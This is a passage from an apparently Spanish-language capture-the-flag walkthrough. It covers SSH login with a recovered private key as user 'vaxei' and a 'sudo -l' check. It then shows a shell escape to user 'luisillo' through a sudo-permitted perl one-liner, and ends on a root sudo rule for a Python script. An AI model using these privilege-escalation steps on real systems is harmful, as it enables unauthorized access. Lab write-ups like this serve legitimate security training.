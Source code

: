 Vemos que con el usuario `vaxei` si va, por lo que nos conectaremos con esa `id_rsa` de la siguiente forma.

## SSH

```shell
nano id_rsa

#Dentro del nano
<CONTENIDO_DEL_ID_RSA>
```

Lo guardamos y establecemos los permisos correspondientes al mismo.

```shell
chmod 600 id_rsa
```

```shell
ssh -i id_rsa vaxei@<IP>
```

Y echo esto veremos que estamos dentro con dicho usuario.

## Escalate user luisillo

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for vaxei on 8a42188a52cb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on 8a42188a52cb:
    (luisillo) NOPASSWD: /usr/bin/perl
```

Vemos que podemos ejecutar el binario `perl` como el usuario `luisillo` por lo que haremos lo siguiente:

```shell
sudo -u luisillo perl -e 'exec "/bin/bash";'
```

Y echo esto veremos que somo dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for luisillo on 8a42188a52cb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 8a42188a52cb:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```
